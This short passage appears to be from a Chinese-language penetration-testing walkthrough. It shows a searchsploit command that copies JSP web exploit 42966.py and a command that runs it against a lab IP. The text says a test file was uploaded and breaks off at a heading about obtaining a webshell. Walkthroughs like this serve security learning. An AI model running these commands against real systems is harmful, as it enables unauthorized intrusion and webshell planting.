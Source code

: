 searchsploit -m /usr/share/exploitdb/exploits/jsp/webapps/42966.py

![img](assets/1695034900556-7b1b58f2-16f0-4d50-86b6-044563f040fa.png)

漏洞检测：

python 42966.py -u http://192.168.47.136:2002/

![img](assets/1695034901049-7d6cc14e-1af2-4f32-839a-0f4bb2c324c3.png)
存在漏洞且上传了一个测试文件：

![img](assets/1695034903708-60fca23a-a07c-4b70-9982-ef6b41794c71.png)
获取webshell：
